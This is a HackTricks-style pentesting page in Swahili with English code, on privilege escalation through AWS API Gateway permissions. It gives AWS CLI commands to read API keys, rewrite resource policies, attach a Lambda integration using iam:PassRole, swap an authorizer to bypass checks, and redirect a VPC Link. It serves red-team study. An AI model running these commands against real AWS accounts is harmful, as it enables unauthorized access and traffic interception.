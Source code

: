 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Kwa maelezo zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Kwa ruhusa hii unaweza kuunda funguo za API za APIs zilizowekwa (kwa kila eneo).
```bash
aws --region <region> apigateway create-api-key
```
**Madhara Yanayoweza Kutokea:** Huwezi privesc kwa mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:GET`

Kwa ruhusa hii unaweza kupata funguo za API zilizozalishwa za APIs zilizowekwa (kila eneo).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Madhara Yanayoweza Kutokea:** Huwezi kufanya privesc kwa kutumia mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Kwa ruhusa hizi inawezekana kubadilisha sera ya rasilimali ya API ili kujipatia ufikiaji wa kuitumia na kutumia ufikiaji wa uwezekano ambao API gateway inaweza kuwa nao (kama kuitisha lambda iliyo hatarini).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Wewe, kwa kawaida, huwezi kupata privesc moja kwa moja kwa kutumia mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:PutIntegration`, `apigateway:CreateDeployment`, na `iam:PassRole` anaweza **kuongeza muunganiko mpya kwenye API Gateway REST API iliyopo kwa kutumia kazi ya Lambda ambayo ina jukumu la IAM lililounganishwa**. Mshambuliaji anaweza kisha **kuanzisha kazi ya Lambda kutekeleza msimbo wowote na kwa uwezekano kupata ufikiaji wa rasilimali zinazohusiana na jukumu la IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa rasilimali zinazohusiana na jukumu la IAM la kazi ya Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:UpdateAuthorizer` na `apigateway:CreateDeployment` anaweza **kubadilisha mthibitishaji wa API Gateway uliopo** ili kupita kwenye ukaguzi wa usalama au kutekeleza msimbo wa kawaida wakati maombi ya API yanapofanywa.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Kupita mchakato wa usalama, ufikiaji usioidhinishwa wa rasilimali za API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:UpdateVpcLink` anaweza **kubadilisha VPC Link iliyopo ili kuelekeza kwenye Balancer ya Mizigo ya Mtandao tofauti, ambayo inaweza kuelekeza trafiki ya API ya kibinafsi kwa rasilimali zisizoidhinishwa au zenye uharibifu**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa rasilimali za API za kibinafsi, kukamata au kuingilia kati trafiki ya API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
